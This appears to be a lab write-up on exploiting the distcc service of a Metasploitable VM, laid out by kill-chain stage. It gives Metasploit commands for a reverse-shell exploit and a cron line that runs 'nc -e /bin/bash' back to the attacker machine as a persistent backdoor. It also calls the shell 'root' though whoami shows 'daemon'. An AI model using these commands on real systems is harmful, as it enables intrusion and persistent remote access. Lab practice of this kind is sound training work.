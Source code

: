 # Exploiting `distcc`


## Metasploit Method

### Reconnaissance
- Netdiscover to identify IP Address of Metasploitable (Target) VM 
- A bash script running nmap scans to identify: 
    - Open Ports 
    - Services 
    - Versions 
    - Operating System

- Identified Port 3632 is open and running distcc which is vulnerable to Command Execution 

### Weaponization
- Used Metasploit Framework to automate the exploit 
- The exploit used is distcc_exec 
- Metaploit path is `exploit/unix/misc/distcc_exec`

```bash 
msfconsole 
use exploit/unix/misc/distcc_exec
set RHOSTS 192.168.56.105 # Target IP
set LHOSTS 192.168.56.106 # Kali IP
set PAYLOAD cmd/unix/reverse
```

### Delivery

- Ran the exploit 

```bash 
run 
```

### Exploitation 

The exploit grants us a root terminal shell 
This can be determined used `whoami` which returns `daemon`

### Installation 
- Created a cronjob that connects back to Kali machine with shell access 

```bash 
echo "* * * * * nc -e /bin/bash <kali_ip> 4444" >> /etc/crontab
```

### Command And Control 
- Even after the Metasploitable machine is rebooted the cronjob will attempt to connect back to the listener 

### Actions On Objectives 

- Exploitation was achieved 
- A persistent backdoor was created 